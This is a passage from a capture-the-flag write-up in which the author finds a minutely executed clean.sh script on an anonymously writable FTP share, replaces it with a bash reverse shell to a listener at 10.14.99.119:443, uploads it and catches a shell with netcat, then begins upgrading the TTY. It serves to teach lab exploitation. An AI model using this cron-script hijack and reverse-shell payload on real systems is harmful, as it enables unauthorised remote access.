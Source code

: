 ```bash
226 Transfer complete.
68 bytes received in 00:00 (0.25 KiB/s)
```

Once with the files stored locally, let's check it's content.

After checking the three files, seems like the `clean.sh` script, deletes any files stored at `/tmp` and then send the name of the deleted file to a file named `removed_files.log`.

Inside the **FTP** client, I realized that the `removed_files.log` is being update each minute, that tell us that the `clean.sh` script is being executed every minute.

We do have write permission in the `scripts` folder, so we can modify the content of the `clean.sh` script, so let's change it's content to a reverse shell payload.

```bash
❯ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.14.99.119/443 0>&1' > clean.sh
```

Then log in again with the `anonymous` user and upload the script inside the `scripts` folder.

```bash
ftp> cd scripts
250 Directory successfully changed.
ftp> put 
clean.sh		corgo2.jpg		puppos.jpeg		removed_files.log	to_do.txt
ftp> put clean.sh 
229 Entering Extended Passive Mode (|||60333|)
150 Ok to send data.
100% |*********************************************************************************************************************************************|    55      866.30 KiB/s    00:00 ETA
226 Transfer complete.
55 bytes sent in 00:00 (0.21 KiB/s)
ftp> exit
```

Then set a listener at port `443` and wait for the payload to execute.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.191.150] 50570
bash: cannot set terminal process group (1798): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$  
```

---
## Shell as namelessone

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```
